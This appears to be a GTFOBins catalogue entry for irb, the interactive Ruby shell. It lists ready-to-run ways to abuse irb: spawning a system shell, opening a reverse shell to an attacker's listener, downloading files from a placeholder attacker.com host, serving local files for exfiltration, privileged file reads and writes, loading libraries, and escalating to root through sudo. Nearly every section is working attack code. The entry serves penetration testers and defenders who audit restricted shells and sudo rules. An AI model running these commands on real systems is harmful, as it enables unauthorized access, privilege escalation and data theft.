 # GTFOBin: irb

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
irb
exec '/bin/bash'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST='127.0.0.1'
export RPORT=9000
irb
require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
```

## File upload

It can exfiltrate files on the network.

Serve files in the local folder running an HTTP server on port 8888.

```
irb
require 'webrick'; WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start;
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
irb
require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['LFILE'])
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
irb
File.open("file_to_write", "w+") { |f| f.write("DATA") }
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
irb
puts File.read("file_to_read")
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
irb
require "fiddle"; Fiddle.dlopen("lib.so")
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo irb
exec '/bin/bash'
```